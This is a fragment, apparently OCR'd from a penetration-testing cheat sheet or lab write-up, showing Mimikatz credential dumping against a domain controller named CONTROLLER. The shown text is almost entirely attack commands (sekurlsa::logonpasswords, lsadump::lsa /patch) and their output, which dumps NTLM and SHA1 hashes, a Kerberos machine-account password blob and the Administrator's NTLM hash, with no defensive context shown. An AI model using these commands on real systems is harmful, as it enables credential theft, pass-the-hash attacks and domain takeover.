 ```bash
[*] Restoring the disabled state for service RemoteRegistry
```
###

Using Mimikatz

```c
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 283655 (00000000:00045407)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 11/16/2020 9:46:09 AM
SID               : S-1-5-90-0-2
        msv :
         [00000003] Primary
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * NTLM     : 4bd04581d16353e6bf64ba9745cb6a8f
         * SHA1     : 61f1c5a4691ad30c67adf2a371fafda0178a7b2b
        tspkg :
        wdigest :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER
         * Password : (null)
        kerberos :
         * Username : DOMAIN-CONTROLL$
         * Domain   : CONTROLLER.local
         * Password : 32 af 6b 07 78 2a f0 f5 32 bd 01 59 fb 6b 40 10 6e a7 03 f9 ec d8 23 de 6a 08 10 10 74 b5 60 bb f4 c5 2e 5f 42 e3 71 8b 4b 41 31 2f d2 17 db 2c e1 c3 d7 51 0f 45 79 e4 9a ec ab 63 bb 4a ce c1 dc 20 28 6d c7 50 a0 28 03 a4 7b c1 02 d8 3b c6 19 09 31 8c 41 90 c6 20 fa c4 7b ef 4b cf c1 86 c7 95 f9 60 8d 35 8d 10 c8 ee 37 54 45 3e 30 30 92 b1 b3 85 e3 bd e7 55 22 88 36 82 95 a7 db 71 fa b7 50 1d ce 08 6b 77 9d 02 dd 68 8f f7 ed 1e ac 56 c5 3f c3 e1 cb ba ef 01 79 0c d4 cb b2 36 40 12 2d 36 6a a5 92 78 8c bf 44 c2 28 27 de 00 68 06 3c 4d dc 15 44 5e 81 f8 26 19 e7 0c ca 3e e3 f3 d8 ab ee cb 01 8e 7c 9f ba b4 66 dc 66 af 9c 6d 99 8b c8 fb 02 bd 3f 45 d7 3f 42 e3 e8 4c 25 7e 72 48 b5 38 a8 33 94 20 5e 3d b8 c6 66 93
        ssp :
        credman :
    
```

```c
mimikatz # lsadump::lsa /patch
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000451 (1105)
User : Admin2
LM   :
NTLM : 2b576acbe6bcfda7294d6bd18041b8fe
```
‌
